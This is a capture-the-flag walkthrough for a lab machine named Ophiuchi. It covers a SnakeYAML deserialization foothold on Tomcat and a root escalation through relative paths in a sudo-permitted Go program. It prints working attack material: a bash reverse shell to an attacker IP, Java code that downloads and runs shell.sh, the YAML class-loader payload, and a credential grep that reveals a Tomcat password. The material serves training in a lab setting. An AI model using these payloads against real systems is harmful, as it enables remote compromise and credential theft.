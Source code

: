![OPHIUCHI](banner.png)
```
$sudo nmap -sS -sV 10.129.138.106
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold:

So there is a WebApp on http://ophiuchi.htb:8080/ giving us a yaml-parser:
![page](site.PNG)

Searching for an exploit we found:
https://github.com/artsploit/yaml-payload

First we need to set up a shell.sh locally like:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.52/4242 0>&1
```

Inside the AwesomeScriptEngineFactory.java we used following code to execute the shell on the target machine:
```Java
[...]
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.14.52:1234/shell.sh -O /tmp/shell.sh");
            Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
[...]
```
Now we need to compile the code with:
```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
```
```bash
jar -cvf yaml-payload.jar -C src/ .
```

Just use following code in the WebApp (but don't forget to set up a http-server for the `shell.sh` and a nc listener):
```js
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.52:1234/yaml-payload.jar"]
  ]]
]
```

Now we are logged in as user tomcat@ophiuchi.

## User:

To search for credentials we just used the "standard john cred grepper":
```bash
grep -rn 'password' /opt/tomcat/*
```
Inside the output you can find the creds `admin:whythereisalimit`:
```
conf/tomcat-users.xml:22:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```
Using `su admin` with password `whythereisalimit` we can switch to user admin.

## Root

First thing we do is `sudo -l` which gives us:
```
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

This tells us to get a closer look at the `index.go`:

```go
cat /opt/wasm-functions/index.go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}


```

You can see that for the `main.wasm` and `deploy.sh` only relative path' are used.
We can exloit this by using our own `main.wasm` and `deploy.sh` in another directory but first we need to inspect these files further.

We found a [tool](https://webassembly.github.io/wabt/demo/wasm2wat/) to get a closer look at the `main.wasm` from `/opt/wasm-functions/`:
```
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 0))
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```
This as a readable `.wat`-file. Here `i32.const` is set to 0, but we want it to be 1 so `deploy.sh`gets executed. So just exchange that 0 with a 1.
Therefore we can use [another tool](https://webassembly.github.io/wabt/demo/wat2wasm/) to create a new `.wasm` from the `.wat`.

Now we still need to set up a new `deploy.sh` like:

```
#!/bin/bash
cat /root/root.txt
```

With these new files `main.wasm` and `deploy.sh` in the current dictory we can use:
```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```
and our own `deploy.sh` gets executed with root permissions. Obviously you can put a shell in there instead of the `cat` if you like.
